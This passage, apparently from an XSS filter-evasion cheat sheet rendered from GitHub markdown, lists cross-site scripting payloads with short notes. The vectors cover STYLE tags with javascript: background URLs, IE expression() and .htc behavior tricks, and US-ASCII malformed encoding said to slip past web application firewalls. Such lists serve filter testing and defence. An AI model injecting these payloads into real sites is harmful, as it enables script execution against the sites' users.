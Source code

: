 <h2><a id="user-content-style-tag-using-background-image" class="anchor" aria-hidden="true" href="#style-tag-using-background-image"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>STYLE tag using background-image</h2>
<pre><code>&lt;STYLE&gt;.XSS{background-image:url("javascript:alert('XSS')");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;
</code></pre>
<h2><a id="user-content-style-tag-using-background" class="anchor" aria-hidden="true" href="#style-tag-using-background"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>STYLE tag using background</h2>
<pre><code>&lt;STYLE type="text/css"&gt;BODY{background:url("javascript:alert('XSS')")}&lt;/STYLE&gt;

&lt;STYLE type="text/css"&gt;BODY{background:url("&lt;javascript:alert&gt;('XSS')")}&lt;/STYLE&gt;
</code></pre>
<h2><a id="user-content-anonymous-html-with-style-attribute" class="anchor" aria-hidden="true" href="#anonymous-html-with-style-attribute"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Anonymous HTML with STYLE attribute</h2>
<p>IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:</p>
<pre><code>&lt;XSS STYLE="xss:expression(alert('XSS'))"&gt;
</code></pre>
<h2><a id="user-content-local-htc-file" class="anchor" aria-hidden="true" href="#local-htc-file"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Local htc file</h2>
<p>This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:</p>
<pre><code>&lt;XSS STYLE="behavior: url(xss.htc);"&gt;
</code></pre>
<h2><a id="user-content-us-ascii-encoding" class="anchor" aria-hidden="true" href="#us-ascii-encoding"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>US-ASCII encoding</h2>
<p>US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.</p>
<pre><code>¼script¾alert(¢XSS¢)¼/script¾
</code></pre>